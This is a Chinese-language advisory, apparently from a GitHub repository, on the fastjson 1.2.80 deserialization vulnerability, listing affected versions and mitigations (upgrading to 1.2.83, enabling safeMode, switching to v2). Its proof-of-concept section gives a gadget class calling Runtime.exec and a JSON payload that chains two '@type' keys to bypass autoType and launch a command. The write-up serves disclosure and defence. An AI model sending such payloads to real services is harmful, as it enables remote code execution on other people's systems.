



# fasjton 1.2.80版本反序列化漏洞：POC代码及规避方案（20220523）


## 1. 漏洞描述

fastjson已使用黑白名单用于防御反序列化漏洞，经研究该利用在特定条件下可绕过默认autoType关闭限制，攻击远程服务器，风险影响较大。建议fastjson用户尽快采取安全措施保障系统安全。


## 2. 影响版本

1.2.80及以下版本，即 <= 1.2.80。


## 3. 规避方案（以下任选一种）

### 3.1  升级到最新版本1.2.83

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```


### 3.2 开启safeMode

参考：https://github.com/alibaba/fastjson/wiki/fastjson_safemode


### 3.2.1 java代码中设置

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```


### 3.2.2 JVM参数中设置

```shell
-Dfastjson.parser.safeMode=true
```




### 3.2.3 配置文件设置

```properties
# fastjson.properties 
fastjson.parser.safeMode=true
```




## 3.3 使用fastjson v2版本，与v1版本不兼容


## 4. POC代码


poc类（代码中需要有该类）

```java
package com.example.fastjson.poc20220523;

import java.io.IOException;

public class Poc20220523 extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


攻击代码：

主要是构造json串：

```json
{
	"@type": "java.lang.Exception",
	"@type": "com.example.fastjson.poc20220523.Poc20220523",
	"name": "calc"
}
```

java代码解析：

```java
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.poc20220523.Poc20220523\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
```


效果截图：




## 5. 代码地址：

https://github.com/YoungBear/FastjsonPoc
